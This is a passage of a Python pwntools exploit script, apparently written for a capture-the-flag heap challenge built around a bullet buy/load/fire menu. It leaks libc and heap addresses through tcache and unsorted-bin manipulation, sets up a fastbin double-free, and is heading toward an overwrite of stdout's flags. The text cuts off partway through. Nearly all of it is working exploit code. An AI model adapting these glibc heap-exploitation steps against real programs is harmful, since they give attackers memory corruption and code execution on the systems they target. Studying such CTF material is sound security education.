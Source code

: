 ```python
	sh.recvuntil('Bullet Name: ')
	sh.send(cont)
	#sh.recvuntil('Confirm')

def Load(idxs):
	for idx in idxs:
		Cmd(2)
		sh.sendlineafter('Which one do you want to load?', str(idx))
		sh.recvuntil('Confirm')

def Fire(cnt):
	Cmd(1)
	sh.sendlineafter('Shoot time: ', str(cnt))

def Exit():
	Cmd(4)

Name('AAA')

#leak addr
for i in range(8):
	Buy(0x79, 'leak addr\n')	#chunk size: 0x90
Buy(0x10, 'gap\n')		#gap
Load([7, 6, 5, 4, 3, 2, 1, 0])
Fire(8)		#Tcache[0x90]->6->5->4->3->2->1->0, UB<=>7

for i in range(7):
	Buy(0x79, '\n')
Buy(0x10, '\n')	#splite UB

Load([0, 1, 2, 3, 4, 5, 6, 7])
Fire(8)
sh.recvuntil('Pwn! The ')
libc.address = u64(sh.recv(6)+'\x00\x00') - 0x1ebc60
Log('libc.address')

sh.recvuntil('Pwn! The ')
sh.recvuntil('Pwn! The ')
heap_addr = u64(sh.recv(6)+'\x00\x00') - 0x2d0
Log('heap_addr')

#Load([8])	#clean PtrArr
#Fire(1)

#overwrite stdout's flag
for i in range(8):
	Buy(0x10, str(i)*0x10)	#0x20 chunk
Load([3])	#UB will remain a 0x30 chunk for us, exclude it
Fire(1)
Buy(0x10, '3'*0x10)	#0x20 chunk

Load([8, 7, 6, 5, 4, 3, 2])	#full Tcache[0x20]
Fire(7)

Load([0, 1])
Fire(2)			#fastbin->0->1

Buy(0x10, 'A'*0x10)
Load([0])	
Fire(2)			#fastbin->1<->0, bullet is empty

Buy(0x2C0, 'tcache'+'\n')
Load([0])
```